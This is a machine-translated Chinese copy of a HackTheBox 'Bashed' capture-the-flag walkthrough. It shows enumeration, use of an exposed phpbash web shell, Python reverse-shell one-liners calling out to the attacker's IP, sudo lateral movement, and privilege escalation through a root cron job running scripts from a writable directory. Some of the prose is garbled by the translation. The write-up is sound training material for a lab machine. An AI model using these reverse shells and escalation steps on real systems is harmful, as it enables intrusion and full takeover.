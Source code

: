# 
web页面有shell  sudo -u横移   cron提权


# 高温透射率：被抨击

[0xdf.gitlab.io](https://0xdf.gitlab.io/2018/04/29/htb-bashed.html)0xdf黑客的东西

巴什德今天从 hackthebox.eu 退休。以下是我的笔记，已转换为演练。这些笔记来自几个月前，它们有点原始，但无论如何都要在这里发布。

*   用户
*   外壳升级
*   根

## 用户

初始 nmap 扫描仅显示端口 80：

  
```
  root@kali:/media/sf_CTFs/hackthebox/bashed-10.10.10.68# nmap -sV -sC -oA nmap/initial 10.10.10.68
    Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-06 20:40 EST
    Nmap scan report for 10.10.10.68
    Host is up (0.098s latency).
    Not shown: 999 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http?
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 31.85 second
```
s
    

该页面是一个博客，其中包含一篇关于phpbash的文章：![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fphpbash.png) ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fmain.png)

因此，让我们启动gobuster，看看该网站的样子：

    root@kali:/media/sf_CTFs/hackthebox/bashed-10.10.10.68# gobuster -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    
    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.68/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    [+] Status codes : 200,204,301,302,307
    =====================================================
    /images (Status: 301)
    /uploads (Status: 301)
    /php (Status: 301)
    /css (Status: 301)
    /dev (Status: 301)
    /js (Status: 301)
    /fonts (Status: 301)
    

`/dev`很有趣。并允许步行：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Findex_of_dev.png)

点击 phpbash 会得到一个外壳：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fphpbash_shell.png)

/家/阿雷塞尔内部是用户标志：

    www-data@bashed:/home/arrexel# ls
    user.txt
    www-data@bashed:/home/arrexel# wc -c user.txt
    33 user.txt
    

## 外壳升级

在 phpbash 中，运行：

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    

当地卡利：

    root@kali:/media/sf_CTFs/hackthebox/bashed-10.10.10.68# nc -lnvp 1235
    listening on [any] 1235 ...
    connect to [10.10.14.157] from (UNKNOWN) [10.10.10.68] 49932
    /bin/sh: 0: can't access tty; job control turned off
    $ python -c 'import pty; pty.spawn("/bin/bash")'
    www-data@bashed:/var/www/html/dev$
    

## 根

从 LinEnum.sh 开始，获取有关隐私的信息。本节突出：

    
```
www-data can sudo as scriptmanager:
    We can sudo without supplying a password!
    Matching Defaults entries for www-data on bashed:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User www-data may run the following commands on bashed:
        (scriptmanager : scriptmanager) NOPASSWD: ALL
```

    

很容易得到一个外壳作为脚本管理器：`sudo -u scriptmanager /bin/bash`

现在，脚本管理器可以访问 www 数据无法访问的文件夹：

    $ ls -ld /scripts
    drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec  4 18:06 /scripts
    

在该目录中，有两个文件：

   
```
 scriptmanager@bashed:/scripts$ ls -l
    total 8
    -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4 17:03 test.py
    -rw-r--r-- 1 root          root          12 Mar  7 04:09 test.txt
    
    scriptmanager@bashed:/scripts$ cat test.py
    f = open("test.txt", "w")
    f.write("testing 123!")
    f.close
    
    scriptmanager@bashed:/scripts$ cat test.txt
    testing 123!
```

    

最有趣的是，测试.txt文件归root所有，似乎是脚本管理器可写的 test.py 脚本的结果。

首先，我尝试移动测试.txt测试.txt.old。几分钟后，它又回来了：

 
```
   scriptmanager@bashed:/scripts$ date
    Wed Mar  7 05:37:32 PST 2018
    
    scriptmanager@bashed:/scripts$ ls
    test.py  test.txt.old  test2.py  test3.py  testt.py
    
    scriptmanager@bashed:/scripts$ date
    Wed Mar  7 05:39:14 PST 2018
    
    scriptmanager@bashed:/scripts$ ls
    test.py  test.txt  test.txt.old  test2.py  test3.py  testt.py
```

    

正在运行某些内容，该内容 test.py /scripts 目录中的脚本。

创建一个写入其他文件的测试脚本，然后写入不同的文件。因此，似乎正在运行任何.py文件。另外，由于 test.py 没有#！一开始，似乎任何运行这个的东西（也许是一个cron？）都在叫python。

可以只编写一个读取 /root/root 的脚本.txt并在其他地方写入，但最好得到一个 shell！创建漏洞利用：

    scriptmanager@bashed:/scripts$ echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.157\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py
    

在 Kali 上，设置一个侦听器，并获取根外壳：

    root@kali:/media/sf_CTFs/hackthebox/bashed-10.10.10.68# nc -lnvp 31337
    listening on [any] 31337 ...
    connect to [10.10.14.157] from (UNKNOWN) [10.10.10.68] 47806
    /bin/sh: 0: can't access tty; job control turned off
    
    # id
    uid=0(root) gid=0(root) groups=0(root)
    
    # python -c 'import pty; pty.spawn("/bin/bash")'
    
    root@bashed:/scripts# crontab -l
    * * * * * cd /scripts; for f in *.py; do python "$f"; done
    
    root@bashed:/scripts# wc -l /root/root.txt
    33 /root/root.txt
    

正如预期的那样，有一个 cron 以 root 身份从 /scripts 目录运行脚本。

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2018/04/29/htb-bashed.html)